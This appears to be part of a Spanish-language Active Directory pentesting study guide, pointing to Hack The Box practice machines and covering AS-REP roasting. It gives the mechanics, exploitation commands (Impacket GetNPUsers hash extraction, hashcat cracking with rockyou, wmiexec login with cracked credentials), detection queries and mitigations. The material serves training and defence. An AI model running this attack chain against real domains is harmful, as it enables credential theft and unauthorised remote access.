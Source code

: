 ### Máquinas HTB para practicar
- **Active** (Easy) - Ejemplo clásico
- **Resolute** (Medium) - Kerberoasting como escalada
- **Intelligence** (Medium) - En flujo de ataque completo

---

## 2. AS-REP ROASTING

### ¿Por qué ocurre?
- **Configuración:** "Do not require Kerberos pre-authentication" habilitada
- **Caso de uso legítimo:** Aplicaciones antiguas o servicios que no implementan pre-auth completa
- **Error común:** Mantener configuración innecesaria por tiempo prolongado

### Mecánica del ataque
1. **Identificación:** Usuarios sin pre-autenticación
2. **Petición AS-REQ:** Solicitar TGT sin proof-of-identity
3. **Respuesta AS-REP:** KDC envía datos cifrados con hash del usuario
4. **Extracción y crackeo:** Hash vulnerable a ataques offline

### Sistemas afectados
- **Domain Controllers** que procesan autenticaciones
- **Usuarios con UserAccountControl flag 4194304**
- **Totalmente funcional** en entornos modernos

### Detección y Explotación
**Localización:**
```bash
# Impacket
GetNPUsers.py dominio.com/ -usersfile usuarios.txt -dc-ip IP_DC -no-pass

# PowerView
Get-DomainUser -PreauthNotRequired -Properties samaccountname

# BloodHound
MATCH (u:User {dontreqpreauth: true}) RETURN u
```

**Explotación:**
```bash
# 1. Obtener hashes
GetNPUsers.py -dc-ip 10.10.10.1 dominio.com/ -usersfile users.txt -format hashcat

# 2. Crackeo
hashcat -m 18200 asrep_hashes.txt rockyou.txt

# 3. Acceso con credenciales
wmiexec.py dominio.com/usuario_crackeado:password@10.10.10.10
```

### Prevención/Mitigación
- **Deshabilitar** pre-auth no requerida en todos los usuarios
- **Group Policy:** "Network security: Configure encryption types allowed for Kerberos"
- **Monitoreo:** Eventos 4768 con pre-auth type 0
- **Auditoría regular** de UserAccountControl flags
